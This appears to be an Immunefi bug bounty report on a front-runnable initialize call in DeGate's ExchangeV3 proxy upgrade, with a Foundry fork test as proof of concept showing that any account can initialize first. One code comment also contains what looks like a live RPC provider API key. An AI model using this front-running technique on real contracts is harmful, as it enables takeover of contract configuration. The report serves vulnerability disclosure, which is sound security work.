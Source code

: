 # 26073 - \[SC - Insight] The implementation upgrade must be done by call...

Submitted on Nov 24th 2023 at 04:30:05 UTC by @Paludo0x for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26073

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:

* Contract fails to deliver promised returns, but doesn't lose value
* Impact caused by the unintended functionality of multisig owners

## Description

## Bug Description

The implementation upgrade in the ExchangeV3 proxy was performed by sequentially calling:

1. `upgradeTo` function of the proxy https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062?trace=0
2. `initialize` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x3c5629d35e75eb6b1e3e17e73ea16f3638c46a120a1f31bb8988f9db89bf483a?trace=0
3. `transferOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x9e6c119e7acaa30e62ef7bc12096dc6bd74ea38b1341aa2ecaeb9092c1e37a01?trace=0
4. `claimOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x238ba9b1141f396446013989c947851eba3629e81121347f6d66f167f8823469?trace=0.2.1

The issue is that `upgradeTo` and `initialize` calls have been done at different blocks (respectively 18552107 and 18552108). That imply that **anyone** could have front run the initialize call because it is done throug fallback function of proxy contract which is permissionless.

Function initialize is the following:

```
    function initialize(
        address _loopring,
        address _owner,
        bytes32 _genesisMerkleRoot,
        bytes32 _genesisMerkleAssetRoot
        )
        external
        override
        nonReentrant
        onlyWhenUninitialized
    {
        require(address(0) != _owner, "ZERO_ADDRESS");
        owner = _owner;

        state.initializeGenesisBlock(
            _loopring,
            _genesisMerkleRoot,
            _genesisMerkleAssetRoot,
            EIP712.hash(EIP712.Domain("DeGate Protocol", version(), address(this)))
        );
    }
```

So, the initialize function initializes:

1. the owner of the implementation (not of the proxy, which is stored in a different slot)
2. the loopring address
3. genesisMerkleRoot
4. genesisMerkleAssetRoot

We must consider that the upgrade function is called when the implementation is initialized for the first time or when the implementation is updated to a new version. In the last case it should be called by the multisig and the timelock after at least 45 days. Therefore, resolving the issue could take a long time and a revert of the transaction could be unnoticed.

## Impact

What could be the effects of initialization by any user?

If a malicious user set up a different owner, fortunately, this can be changed by the proxy owner but at later time if the proxy owner is the Timelock.

At the moment, I canno comment the effects of initializing with counterfeit genesisMerkleRoot and genesisMerkleAssetRoot.

Eventually, in my opinion, the biggest problem is Loopring address. A malicious user could deploy a fake Loopring contract similar to the real one but with a backdoor usable by the malicious user himself. While the other initialization parameters (owner and merkle roots) would be the equivalent to the ones of the legitimate transsaction. This situation could be unnoticed by legitimate owners.

## Proof of concept

The POC verifies that any user can call initialize the function after upgrading of implementation and if the same function is called by the owner afterwards it reverts because already initialized. It shall be run with foundry with the following command forge test --match-test test\_initialize\_frontRun --fork-url YOUR\_RPC\_URL --fork-block-number 18552107

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.6.2 <0.9.0;
pragma abicoder v2;

import {Test, console2} from "forge-std/Test.sol";
import {OwnedUpgradabilityProxy} from "../contracts/thirdparty/proxies/OwnedUpgradabilityProxy.sol";  
import {LoopringIOExchangeOwner} from "../contracts/aux/access/LoopringIOExchangeOwner.sol";  
import {ExchangeV3} from "../contracts/core/impl/ExchangeV3.sol";  
import {ILoopringV3} from "../contracts/core/impl/ExchangeV3.sol";  

interface IMultiSigWallet {
        function removeOwner(address owner) external;
        function addOwner(address owner) external;
}
contract TestPlaygorund is Test {

    address constant contractsDeployer = 0xacD3A62F3eED1BfE4fF0eC8240d645c1F5477F82;
    OwnedUpgradabilityProxy constant excV3ProxyInterfDeployed = OwnedUpgradabilityProxy(0x9C07A72177c5A05410cA338823e790876E79D73B);
    ExchangeV3 constant excV3ProxyImplDeployed = ExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    address constant anyUser = address(0xbee);


    //forge test --match-test test_initialize_frontRun --fork-url https://eth-mainnet.g.alchemy.com/v2/gSyV-SZAsIZGOyq7gTEOclsvkFL3dJ94 --fork-block-number 18552107
    function test_initialize_frontRun() public {
    
        //on block 18552107 deployer account (which is actual Proxy Owner) updates implementation address to 
        //https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062

        //we fork from block 18552108, i.e. when function "initialize" is triggered
        address loopring =0x9385aCd9d78dFE854c543294770d0C94c2B07EDC;
        address owner = contractsDeployer;
        bytes32 genesisMerkleRoot = 0x03e1788bf14436c39a3841ae888ffb3e6ec8405bc2773afa28b6d4dfc309cf19;
        bytes32 genesisMerkleAssetRoot = 0x071c8b14d71d432750479f5fe6e08abe1ec04712835a83cdf84d0483b9382ae8;

   
        //I would have loved to check the different loopring value but I'm getting stack too deep error
        //(,,ILoopringV3 tempLoopring,,,,,,,,,,) = excV3ProxyImplDeployed.state();
        
        //we verify that owner is unitialized
        console2.log("Owner address before initialize", excV3ProxyImplDeployed.owner() );

        //any user frontruns and call initialize, he could have changed parameters as he like
        vm.startPrank(anyUser);
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
        console2.log("Owner address after initialize", excV3ProxyImplDeployed.owner() );

        //try to call initialize function by owner
        vm.startPrank(owner);
        vm.expectRevert("INITIALIZED");
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
    }
}

```
